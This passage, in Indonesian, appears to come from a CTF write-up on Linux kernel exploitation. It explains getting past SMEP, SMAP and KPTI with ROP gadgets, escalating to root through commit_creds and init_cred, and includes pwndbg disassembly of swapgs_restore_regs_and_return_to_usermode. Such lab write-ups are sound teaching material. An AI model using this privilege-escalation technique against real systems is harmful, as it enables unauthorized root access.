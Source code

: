 dengan cara itu, kita bisa melewati KASLR, tapi bagaimana dengan SMEP SMAP dan KPTI? untuk melewati SMEP, didalam tulisan <a href="https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/">ini</a> menyebutkan bahwa kita harus menimpa register CR4 (Control Register), tapi sayangnya hal itu sudah tidak bisa lagi, untuk mengetahui selebihnya silahkan <a href="https://patchwork.kernel.org/project/kernel-hardening/patch/20190220180934.GA46255@beast/">baca dokumentasi ini</a>, dan catatan penting lainnya dari penulis tantangan ini adalah ```Biasanya, terdapat gadget seperti mov rdi, rax; rep movsq; ret;, yang bisa Anda gunakan untuk meneruskan hasil dari prepare_kernel_cred(NULL) ke commit_creds. Alternatifnya, Anda dapat melewati bagian pertama dari gadget commit_creds dan langsung menjalankannya. Ini dapat berguna ketika Anda tidak dapat menemukan gadget yang sesuai atau ketika Anda ingin memperpendek rantai ROP. Variabel global init_cred berisi struktur kredensial dengan hak akses root. Ini berarti Anda dapat meningkatkan hak istimewa Anda hanya dengan menjalankan mov rdi, rax; call rcx; commit_creds(init_cred).``` yang artinya kita sudah bisa melewati SMEP dan SMAP dengan gadget ```mov rdi, rax; rep movsq; ret;```.

dan untuk KPTI, kita menggunakan gadget```swapgs_restore_regs_and_return_to_usermode``` yang sudah kita siapkan sebelumnya. mari kita lihat apa yang ada dibalik swapgs_restore_regs_and_return_to_usermode itu:

```bash
pwndbg> x/20i 0xffffffff81800e10+22 
   0xffffffff81800e26:	mov    rdi,rsp
   0xffffffff81800e29:	mov    rsp,QWORD PTR gs:0x6004
   0xffffffff81800e32:	push   QWORD PTR [rdi+0x30]
   0xffffffff81800e35:	push   QWORD PTR [rdi+0x28]
   0xffffffff81800e38:	push   QWORD PTR [rdi+0x20]
   0xffffffff81800e3b:	push   QWORD PTR [rdi+0x18]
   0xffffffff81800e3e:	push   QWORD PTR [rdi+0x10]
   0xffffffff81800e41:	push   QWORD PTR [rdi]
   0xffffffff81800e43:	push   rax
   0xffffffff81800e44:	jmp    0xffffffff81800e89
   0xffffffff81800e46:	mov    rdi,cr3
   0xffffffff81800e49:	jmp    0xffffffff81800e7f
   0xffffffff81800e4b:	mov    rax,rdi
   0xffffffff81800e4e:	and    rdi,0x7ff
   0xffffffff81800e55:	bt     QWORD PTR gs:0x1f316,rdi
   0xffffffff81800e5f:	jae    0xffffffff81800e70
   0xffffffff81800e61:	btr    QWORD PTR gs:0x1f316,rdi
   0xffffffff81800e6b:	mov    rdi,rax
   0xffffffff81800e6e:	jmp    0xffffffff81800e78
   0xffffffff81800e70:	mov    rdi,rax
pwndbg> x/2i 0xffffffff81800e46 
   0xffffffff81800e46:	mov    rdi,cr3
   0xffffffff81800e49:	jmp    0xffffffff81800e7f
pwndbg> x/6i 0xffffffff81800e7f
   0xffffffff81800e7f:	or     rdi,0x1000
   0xffffffff81800e86:	mov    cr3,rdi
   0xffffffff81800e89:	pop    rax
   0xffffffff81800e8a:	pop    rdi
   0xffffffff81800e8b:	swapgs
   0xffffffff81800e8e:	jmp    0xffffffff81800eb0
pwndbg> x/3i 0xffffffff81800eb0
   0xffffffff81800eb0:	test   BYTE PTR [rsp+0x20],0x4
   0xffffffff81800eb5:	jne    0xffffffff81800eb9
   0xffffffff81800eb7:	iretq

```
kesimpulannya adalah untuk memperbarui CR3, jadi sekilas sepertinya melompat ke lokasi berikutnya akan mengembalikan direktori halaman ke ruang pengguna walaupun data pada ruang stack kernel tidak dapat direferensikan. jadi, menyalin data yang awalnya ada di tumpukan kernel ke area yang dapat diakses bahkan setelah pembaruan CR3. kita harus melompat ke intruksi berikutnya dalam rop. agar rantai ROP berhasil.
